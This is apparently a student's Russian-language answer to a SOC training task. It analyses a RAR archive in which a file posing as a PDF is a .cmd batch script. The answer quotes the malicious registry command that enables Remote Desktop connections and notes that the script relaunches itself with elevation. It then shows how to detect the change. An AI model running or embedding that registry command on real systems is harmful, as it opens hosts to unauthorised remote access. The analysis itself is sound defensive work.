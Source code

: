 # В архиве 567000-13.rar находится файл 567000-13.pdf. Если его открыть в архиваторе WinRAR (winrar-x64-602ru.exe) происходят «странные вещи».
## 1.	Опишите, что происходит.

    1) Отключает вывод команд на экран с помощью @echo off.

    2)Создает новый файл 01.bat в папке %appdata% (папка пользователя) со следующим содержимым:

    @echo off - отключает вывод команд на экран

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f - добавляет запись в реестр Windows, которая разрешает удаленные подключения к терминальному серверу.

    Запускает созданный файл 01.bat с повышенными правами администратора, используя PowerShell-команду Start-Process.

## 2.	Выделите признаки, по которым понятно, что происходят подозрительные действия.

┌──(root㉿kali)-[~/mnt/INT26/Задачи для интенсива. SOC/Task 4]

└─# file 567000-13/567000-13.pdf/567000-13.pdf\ .cmd 

567000-13/567000-13.pdf/567000-13.pdf .cmd: DOS batch file, ASCII text

Файл «567000-13/567000-13.pdf/567000-13.pdf .cmd» идентифицируется как пакетный файл DOS, который представляет собой текстовый файл в кодировке ASCII с расширением «.cmd». Это указывает на то, что файл является командным сценарием Windows, а не PDF-документом.

Я не стал запускать вредоносный файл, но сделаю предположение, что он попросит разрешение администратора при его запуске, что также подозрительно.

## 3.	Укажите каким образом можно удостовериться в том, удалось ли атакующему достичь цели.

Необходимо проверить, была ли добавлена запись в реестр Windows, которая разрешает удаленные подключения:

Get-ItemProperty -Path "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections"

Можно попытаться установить удаленное подключение к системе, чтобы убедиться, что оно теперь возможно.
